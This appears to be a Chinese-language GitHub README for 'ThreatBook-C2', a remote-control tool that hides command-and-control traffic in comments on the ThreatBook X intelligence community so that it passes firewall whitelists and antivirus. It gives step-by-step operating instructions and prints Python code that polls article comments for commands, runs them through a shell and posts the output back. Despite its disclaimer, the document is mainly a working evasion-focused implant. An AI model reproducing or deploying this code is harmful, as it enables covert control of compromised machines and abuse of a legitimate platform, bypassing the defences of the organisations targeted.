 <h1 align="center">ThreatBook-C2</h1>
<h2 align="center">利用微步社区做天然白名单且免杀的远控C2（支持手机电脑）</h2>

**郑重声明：文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，<u>任何人不得将其用于非法用途以及盈利等目的，否则后果自负</u>** 
<p align="center">
<a href="https://opensource.org/licenses/MIT"><img src="https://img.shields.io/badge/license-MIT-_red.svg"></a>
<a href="https://github.com/yuziiiiiiiiii/ThreatBook-C2"><img  src="https://goreportcard.com/badge/github.com/projectdiscovery/httpx"></a>
</p>
<p align="center"><a href="#前言">前言</a> · <a href="#演示">演示</a> · <a href="#流量分析">流量分析</a> · <a href="#实操运用">实操运用</a>· <a href="#关键实现">关键实现</a></p>

---

## 前言

微步的X情报社区具有信息分享、传播及获取的功能，用户发表的信息是公开的信息，其他第三方均可以通过X情报社区获取用户发表的信息。在众多的攻防演练中常用于溯源，分析恶意IP，恶意附件等，殊不知也可以利用其天然白名单且免杀的优势做C2远控，防不胜防！如今许多企业网络设置了上网行为管理，网关等各种千奇百怪的安全设备，网络只对特定IP或域名设置白名单开放，然后限制一切陌生流量，这样则会导致即使对C2做了**云函数，CDN，域前置，IPv6**等各种技术实现了隐匿但是流动不起来，无法上线，此时则需要一个天然白名单做C2，不仅隐匿性杠杠滴，还无视各种安全设备，从而直接远控！

附上微步情报社区：https://x.threatbook.com/

## 演示

**桌面端**

![1](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/d51f8c28-843d-421a-b6f2-25f71d1cf68a)

**移动端**

![13345061142777462](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/34787d5c-bd1a-452e-941f-677bd76c5982)

## 流量分析

![1](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/74c5379e-eba4-4c84-a581-a1b5799a1f33)

根据流量包，可以看出和C2的通讯IP为117.50.19.28是微步社区的IP，企业内为默认白名单IP，因此IP上不仅做到了隐匿也做到了与企业间可通信。流量走https加密流量，命令间存在心跳时间

![2](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/3d12454d-b247-4c4f-a18b-9e5b4e8c0ff2)

## 实操运用

- **一个微步社区正常的账号（可以创建干净的小号，进一步增强隐匿性）**

- **发布一篇微步社区文章（建议提前几天准备好，临时发布的文章曝光度高，容易被其他人看见），建议提前将命令输入评论区（命令格式是"命令+真正的命令"），避免踩空**

  ![7](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/e6fd4790-cc1b-471a-9667-27ec351eadd5)

- **记录下关键信息**

微步社区的文章ID

![3](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/4cd1815c-3505-49d6-a725-1e55b3aa1e87)

微步社区的验证字段

csrfToken

rememberme

xx-csrf

![4](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/5a2de377-ec44-434a-9107-730c02a59880)

将关键信息填入config.ini中

![5](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/f8858b6b-0b38-4e45-a3df-dcf862103fba)

同目录下运行C2.exe（目测无视一切杀软执行命令且回显），这时候回到微步社区文章页面进行刷新，会发现命令已经回显

![6](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/5b7a49a1-23c7-4230-9dce-6568a1dcdb26)

若需要再次执行命令只需要在评论区按格式输入命令，等待心跳时间后，即可以获取下一个命令回显（默认设置的是5s心跳时间）

结束远控后，及时保留关键信息并且将文章删除即可

![8](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/90e5cb04-3b9c-4940-8bd7-ab6fd6b3a1d0)

## 关键实现
​	
​	此基于微步社区的远控，主要实现上利用了三个核心代码，分别为获取命令、回显命令、执行命令，以下我们来逐一解析

- 获取命令

```
def get_comments(short_message_id):
    base_url = "https://x.threatbook.com/v5/node/user/article/queryComments?shortThreatId="+short_message_id
    try:
    	#模拟用户发包
        response = requests.get(base_url)
        # 直接使用 response.json() 获取对象
        json_object = response.json()
        # 定义一个评论列表
        comments_list = json_object["data"]["list"]
        # 提取第一个 comments 对应的值
        first_comment = comments_list[0]["comments"]
        # 返回第一个 comments 对应的值
        return first_comment
        # 错误性判断
    except requests.exceptions.RequestException as e:
        print(f"Error: {e}")
```

- 回显命令

```
def send_comment(comment, short_message_id, csrf_token, rememberme, xx_csrf):
    url = "https://x.threatbook.com/v5/node/user/article/saveComment"
	#请求头
    headers = {
        "Host": "x.threatbook.com",
        "Cookie": f"csrfToken={csrf_token}; rememberme={rememberme}; xx-csrf={xx_csrf}",
        "Content-Type": "application/json",
        "X-Csrf-Token": csrf_token,
        "Xx-Csrf": xx_csrf,
        "Sec-Ch-Ua-Mobile": "?0",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36"
    }
	#请求体
    data = {
        "comment": comment,
        "isAnonymous": "False",
        "targetId": "0",
        "shortMeaasgeId": short_message_id
    }
	#回显命令
    try:
        response = requests.post(url, json=data, headers=headers)
        return response.json()
    except requests.exceptions.RequestException as e:
        print(f"Error: {e}")
```

- 执行命令

```
  def command(cmd):
	#Popen()函数使用shell执行命令，stdout和stderr是子进程的标准输出和标准错误输出
    process = Popen(cmd, shell=True, stdout=PIPE, stderr=PIPE)
    #启动并等待子进程完成，通过stdout和stderr读取子进程的输出
    stdout, stderr = process.communicate()
    #返回标准输出并解码为gbk编码的字符串
    return stdout.decode('gbk')
```
